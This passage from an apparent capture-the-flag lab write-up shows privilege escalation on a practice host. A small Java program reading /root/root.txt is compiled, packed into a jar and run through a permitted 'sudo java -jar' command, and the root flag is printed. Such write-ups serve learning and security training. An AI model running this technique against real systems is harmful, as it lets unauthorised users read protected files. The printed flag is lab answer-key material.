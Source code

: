 - Create `Exploit.java` file, which reads the **root.txt** from the root directory.

```java
import java.io.File;
import java.io.FileNotFoundException;
import java.util.Scanner;

public class Exploit {
  public static void main(String[] args) {
    try {
      File myObj = new File("/root/root.txt");
      Scanner myReader = new Scanner(myObj);
      while (myReader.hasNextLine()) {
        String data = myReader.nextLine();
        System.out.println(data);
      }
      myReader.close();
    } catch (FileNotFoundException e) {
      System.out.println("An error occurred.");
      e.printStackTrace();
    }
  }
}
```

- Executing Jar file, but it gives an error due to the absence of **manifest attribute**.

```bash
jdk-admin@vulnnet-dotjar:/dev/shm$ javac -d . Exploit.java     
jdk-admin@vulnnet-dotjar:/dev/shm$ ls
Exploit.class  Exploit.java
jdk-admin@vulnnet-dotjar:/dev/shm$ jar cvf exploit.jar Exploit.class 
added manifest
adding: Exploit.class(in = 865) (out= 563)(deflated 34%)
jdk-admin@vulnnet-dotjar:/dev/shm$ ls       
Exploit.class  exploit.jar  Exploit.java
jdk-admin@vulnnet-dotjar:/dev/shm$ sudo java -jar exploit.jar 
Password: 
no main manifest attribute, in exploit.jar
```

- Adding **manifest attribute** and then executing the exploit:

```bash
jdk-admin@vulnnet-dotjar:/dev/shm$ echo Main-Class: Exploit > MANIFEST.MF
jdk-admin@vulnnet-dotjar:/dev/shm$ jar cvmf MANIFEST.MF exploit.jar Exploit.class                      
added manifest
adding: Exploit.class(in = 865) (out= 563)(deflated 34%)

jdk-admin@vulnnet-dotjar:/dev/shm$ sudo java -jar exploit.jar 
THM{464c29e3ffae05c2e67e6f0c5064759c}
```

